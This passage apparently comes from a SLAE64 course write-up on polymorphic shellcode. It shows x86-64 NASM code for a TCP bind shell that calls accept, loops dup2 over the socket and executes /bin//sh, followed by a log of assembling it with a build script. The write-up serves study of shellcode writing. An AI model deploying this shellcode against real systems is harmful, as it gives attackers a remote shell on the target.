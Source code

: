 ```nasm
	pop rax

	syscall		; exec accept syscall

	mov rdi, rax	; return value of accept

	; dup2
	push 0x3
	pop rsi

doop:
	dec rsi

	push 0x21
	pop rax

	syscall		; exec dup2 syscall

	jne doop

	; execve
	xor rsi, rsi
	push rsi

	mov rdi, 0x68732f6e69622f2f
	shr rdi, 0x8

	push rdi
	push rsp
	pop rdi

	push 0x3b
	pop rax

	syscall		; exec execve syscall
```

The comments are self-explanatory for the functionality of this program, which is the same as the original.

Now the changes, that were made in the polymorphic version, are explained. Basically, some instructions that were using the `stack` were modified to use `registers` and some unnecessary instructions were removed.

### Testing the tcpbindshell polymorphic shellcode

Now we need to compile `tcpbindshell.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with `objdump` one-liner.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/6_Polymorphic/2_tcpbindshell$ ./compile.sh tcpbindshell
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
```
